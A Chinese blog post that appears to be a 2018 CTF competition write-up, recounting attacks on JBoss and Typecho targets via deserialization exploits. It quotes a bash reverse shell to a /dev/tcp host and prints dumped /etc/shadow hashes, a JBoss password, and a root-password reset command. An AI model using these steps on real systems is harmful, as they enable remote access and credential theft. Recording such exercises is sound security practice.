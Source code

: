 ```yaml
---
layout:		post
title:		"铁人三项赛11赛区企业赛总结"
subtitle:		"没做出来两道题，根本不敢自称wp"
date:		2018-06-06 21:43:29 +0800
author:		"Les1ie"
catlog:   true
tags: 
  - CTF
  - 网络安全
  - grootsec
---
```


## 序
2018年5月26日 重庆邮电大学

Grootsec

比赛之前一周才接到通知，准备好了一堆ew shell, 字典 代理工具扫描器，还带上了awvs..

本来还准备上巡风的.. 但是看了下kali装docker还是放弃了

## 企业赛
两套系统，ip分别是`202.1.16.112`, `202.1.16.122`，先扫一圈，
112的80是wordpress 4.9.1, 8080端口开了jboss。122只开了80，是typecho

typecho,那么多半是反序列化前台getshell; jboss那么多半也是反序列化了

刚拿到题目还是有点小兴奋的，因为两套题都有思路

#### jboss
jboss和wordpress这台，印象中wp4.9.1并没有什么严重漏洞，除非这里是弱口令 jboss反序列化可以试试 版本号都没看，直接祭出多年以前kmh给我的指哪打哪的java反序列化exp,然而 一顿操作之后并没有打进去

msf里面以前就研究过java反序列化的exploit, 但是至今不知道该用哪个

于是再去github翻了一圈，找到了jexboss和一个jar的exp, 可能是我方式不对， jexboss并没有打进去。
后面这个直接打进去了，root权限

根目录下翻了一下找到了一个flag3, 然后进`/var/www/html`，翻了下config文件找到了数据库密码和flag7 这个时候大概是开始比赛之后半个小时。然后就毫无进展了..

数据库里面很可能还有一个flag, 但是这个exp不给力，很多命令，尤其是带有管道操作符和引号、尖括号的不能正常运行

翻了下[/root/.bash_history](http://telegra.ph/t3sec-bash-history-06-06)， 首先装了ssh, 然后装了nmong,jboss,然后配置了wordpress, 装的过程中还弹了一个shell
```
bash -i >& /dev/tcp/192.168.12.181/7777 0>&1
```
可能是告诉我们内网环境吧.

最后临走前，关掉了ssh

于是手动开启了ssh, 但是并不知道密码， 拖下来`/etc/shadow`, 丢到join 爆破，但是并没有搞到密码。
```
root:$6$I4H1eCLc$UVFn3yZo9LNFP1GUk39281oEuhG5hHb8vlwV43qM8oAgVGZz7n.XUelPT/nZs0sgfKtdCw2UepVeRKFYWCXP11:17493:0:99999:7:::
www-data:*:17379:0:99999:7:::

simple:$6$IwyRuyYt$d80DUVvsg9V8r8PQR5BybtFCTXHhJ32a42EeMTCcabrhGCw43roKXiFs5WdsqoE.C2/3Wyn0ylLdtPnbvglc1/:17487:0:99999:7:::

```
于是尝试修改root密码，由于exp一次只能输入一条命令，那么`passwd root`这样的命令就不行了
搜了下可以用
```
echo password |passwd --stdin root
```
试过不行，其他也没有想到好的办法

尝试写一句话到wordpress，试过了 `echo xxx>shell.php`, `python -c`, 均失败告终

后来瞄准目标到Jboss, 翻到了jboss的密码
```
buiFuUjs6IQN6rT
```
连上去，把菜刀的jsp马打war包传上去，不能访问，找了其他好几个木马，都失败了，最后放弃这道题

#### typecho
typecho的题目当时是没有做出来的，虽然知道是反序列化，但是无论如何也写不进去shell, 当时一直以为是exp的问题，找了很多个都不行，比赛完之后，有师傅说目录没有w权限，直接执行system就行了

还是经验太少呀..只想着写shell

当时还准备试试ssrf的.. 但是一直在做jboss那道题，因为觉得jboss那个只差一点点了

昨天（2018年6月5日）在实验室重新搭建了一个带漏洞版本的typecho,使用的[脚本](https://github.com/IanSmith123/docker-typecho)

使用了那天试过的几个exp, 都不能成功写进去shell, 最后还是用的system命令去执行拿的flag
![](http://oqyjccf1n.bkt.clouddn.com/20180606-212926.png)

## 数据赛、个人赛
川川和涛森在做，做web做不来了就去围观下他们做数据赛，个人赛三道pwn, 我们的逆向手很绝望:(

全场没几个队伍做出来了pwn。

## 跋
早上9点比赛到下午16点，就早上半个小时有用:(

最后第7名，拿了个二等奖, 前四名进全国赛  :( 还是太菜了

内网是有一套django的.. 我还没看到


Les1ie

2018年6月6日21:36:46
